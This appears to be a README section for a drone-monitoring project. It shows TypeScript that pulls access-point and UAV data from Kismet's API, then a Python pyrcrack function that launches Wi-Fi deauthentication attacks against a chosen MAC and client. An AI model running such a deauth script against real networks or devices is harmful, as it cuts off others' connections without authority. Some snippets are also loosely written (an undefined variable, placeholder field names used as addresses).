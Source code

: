 ## Development

### Monitor

Locate to **kismet** web ui > setting > api > api token, create a token that you can use kismet as a web server, there is a API allow you have devices data with closable fields: `/devices/views/phydot11_accesspoints/devices.json`

```typescript
// TypeScript
declare namespace API {
    interface Drone_Data {
        [x: string]: any;
        data?: [];
    }
}

export async function getDroneInfo() {
    return request<API.Drone_Data>(
        "/devices/views/phydot11_accesspoints/devices.json",
        {
            method: "POST",
            params: { KISMET: "a_kismet_api_token" },
            data: {
                fields: [
                    "kismet.device.base.macaddr",
                    "uav.device",
                    "kismet.device.base.commonname",
                    "kismet.device.base.channel",
                    "dot11.device/dot11.device.associate_ssid_map"
                ],
            },
            ...(Option || []),
        },
    );
}
```

### Attacker

**pyrcrack** have a simple command to achieve de-auth attack:

```python
# Python
import asyncio

from pyrcrack import AireplayNg


async def deauth(interface, macaddr, cliaddr):
    async with AireplayNg() as aireplay:
        async for res in aireplay(interface, deauth=10, D=True, a=macaddr, c=cliaddr):
            await asyncio.sleep(1)

# Usage:
# asyncio.run(deauth('wlan_card_mon','kismet.device.base.macaddr','dot11.device/dot11.device.associate_ssid_map'))
```
